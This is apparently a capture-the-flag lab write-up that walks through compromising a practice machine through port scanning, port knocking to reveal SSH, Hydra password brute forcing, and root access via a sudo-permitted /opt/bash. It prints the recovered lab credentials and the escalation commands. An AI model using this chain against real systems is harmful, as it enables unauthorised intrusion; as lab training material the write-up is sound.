 # Los 40 ladrones

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure

When executing the Gobuster command, we discover these files:

![alt text](Imagenes/40_1.png)

We have an interesting file called qdefense.txt, so we inspect this file:

```ruby
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

It appears we have a user named `toctoc`.
I'm going to scan those ports to see what we can obtain, and we see ports that are filtered:

![alt text](Imagenes/40_2.png)

We can see that if we scan them one by one, we obtain the following information:


Finally, we perform another scan and see that port 22 has been found:
![alt text](Imagenes/40_3.png)

This technique used to hide ports is called Port Knocking. It's a mechanism to open ports externally on a firewall through a pre-established sequence of connection attempts to closed ports. When the firewall receives the correct sequence, it modifies its rules to allow the host that made the attempts to connect to a specific port.
Although I did it manually with nmap, it can be done with the knock tool. It can be installed as follows:

```shell
sudo apt update && sudo apt install -y knockd
```

## Intrusion
With the user we have and the newly discovered SSH port, we're going to perform a brute force attack using the Hydra tool. After waiting for a while, it finds the password.


![alt text](Imagenes/40_4.png)


Therefore, we can now access via SSH with the user toctoc and the password:
```shell
user: toctoc
passwd: kittycat 
```

## Privilege Escalation

For privilege escalation, we first execute the command:
```shell 

sudo -l
```
If we look at which files we can access and execute with sudo, two quite important files appear:

```shell
User toctoc may run the following commands on 3b838c74350b:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function

```

Simply by executing the following command, we become the root user:

```shell 
sudo /opt/bash
```
![alt text](Imagenes/40_5.png)
